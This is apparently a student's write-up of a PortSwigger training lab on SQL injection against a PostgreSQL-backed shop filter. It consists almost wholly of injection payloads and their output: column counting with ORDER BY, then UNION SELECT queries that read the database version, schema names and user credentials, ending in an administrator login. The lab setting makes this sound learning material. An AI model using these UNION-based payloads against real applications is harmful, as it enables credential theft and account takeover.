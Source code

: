 #Lab: SQL injection attack, listing the database contents on non-Oracle databases
#https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

```bash
GET /filter?category=Tech gifts'
```
```bash
Tech gifts' --
```
```bash
#We get error at 3
Tech gifts' order by 3 --
```
```bash
Tech gifts' UNION SELECT 'a' , 'a' -- 
```
```bash
Tech gifts' UNION SELECT version() , NULL  --

#PostgreSQL 12.18 (Ubuntu 12.18-0ubuntu0.20.04.1)
```
```bash
Tech gifts' UNION SELECT table_name , NULL from information_schema.tables --

#users_qgvxej
```
```bash
Tech gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_qgvxej' --

username_mcupwd
password_weqnoi
```
```bash
Tech gifts' UNION SELECT username_mcupwd,password_weqnoi from users_qgvxej --

administrator 6eatcp9hc861cg4gvy58
wiener wt3apvq460vzgallr2vw
carlos pwbean5zzfbkjxn9t5nj
```
```bash
# We will only login to administrator account and click to home. We completed the lab!
```
